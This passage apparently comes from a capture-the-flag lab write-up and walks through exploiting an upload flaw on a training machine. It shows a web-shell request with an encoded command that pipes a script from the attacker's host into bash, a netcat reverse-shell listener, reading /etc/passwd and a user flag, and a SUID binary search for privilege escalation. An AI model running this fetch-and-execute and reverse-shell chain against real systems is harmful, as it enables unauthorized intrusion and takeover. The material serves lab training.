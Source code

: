 Send reverse shell

```bash
┌──(kali㉿kali)-[/usr/share/payloadsallthethings/Upload Insecure Files/Extension PHP]
└─$ curl -X GET "http://10.10.60.122:3333/internal/uploads/shell.phtml?cmd=%63%75%72%6c%20%31%30%2e%31%31%2e%31%39%2e%31%34%35%7c%62%61%73%68"
```

Get reverse shell

```bash
┌──(kali㉿kali)-[~/thm]
└─$ nc -lvnp 1111
listening on [any] 1111 ...
connect to [10.11.19.145] from (UNKNOWN) [10.10.60.122] 55362
bash: cannot set terminal process group (1364): Inappropriate ioctl for device
bash: no job control in this shell

www-data@vulnuniversity:/var/www/html/internal/uploads$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

www-data@vulnuniversity:/var/www/html/internal/uploads$ cat /etc/passwd|grep sh$
<r/www/html/internal/uploads$ cat /etc/passwd|grep sh$
root:x:0:0:root:/root:/bin/bash
bill:x:1000:1000:,,,:/home/bill:/bin/bash

www-data@vulnuniversity:/var/www/html/internal/uploads$ cd /home/bill
cls
d /home/bill

www-data@vulnuniversity:/home/bill$ ls
user.txt

www-data@vulnuniversity:/home/bill$ cat user.txt
cat user.txt
8bd7992fbe8a6ad22a63361004cfcedb
```

## Privilege Escalation

### SUID Bits

```bash
www-data@vulnuniversity:/home/bill$ find / -type f -perm -04000 -ls 2>/dev/null
<me/bill$ find / -type f -perm -04000 -ls 2>/dev/null
   402892     36 -rwsr-xr-x   1 root     root        32944 May 16  2017 /usr/bin/newuidmap
   393361     52 -rwsr-xr-x   1 root     root        49584 May 16  2017 /usr/bin/chfn
   402893     36 -rwsr-xr-x   1 root     root        32944 May 16  2017 /usr/bin/newgidmap
   393585    136 -rwsr-xr-x   1 root     root       136808 Jul  4  2017 /usr/bin/sudo
   393363     40 -rwsr-xr-x   1 root     root        40432 May 16  2017 /usr/bin/chsh
   393501     56 -rwsr-xr-x   1 root     root        54256 May 16  2017 /usr/bin/passwd
   406711     24 -rwsr-xr-x   1 root     root        23376 Jan 15  2019 /usr/bin/pkexec
   393490     40 -rwsr-xr-x   1 root     root        39904 May 16  2017 /usr/bin/newgrp
   393424     76 -rwsr-xr-x   1 root     root        75304 May 16  2017 /usr/bin/gpasswd
   405497     52 -rwsr-sr-x   1 daemon   daemon      51464 Jan 14  2016 /usr/bin/at
   406941    100 -rwsr-sr-x   1 root     root        98440 Jan 29  2019 /usr/lib/snapd/snap-confine
   406710     16 -rwsr-xr-x   1 root     root        14864 Jan 15  2019 /usr/lib/policykit-1/polkit-agent-helper-1
   405145    420 -rwsr-xr-x   1 root     root       428240 Jan 31  2019 /usr/lib/openssh/ssh-keysign
   393687     12 -rwsr-xr-x   1 root     root        10232 Mar 27  2017 /usr/lib/eject/dmcrypt-get-device
   666971     76 -rwsr-xr-x   1 root     root        76408 Jul 17  2019 /usr/lib/squid/pinger
```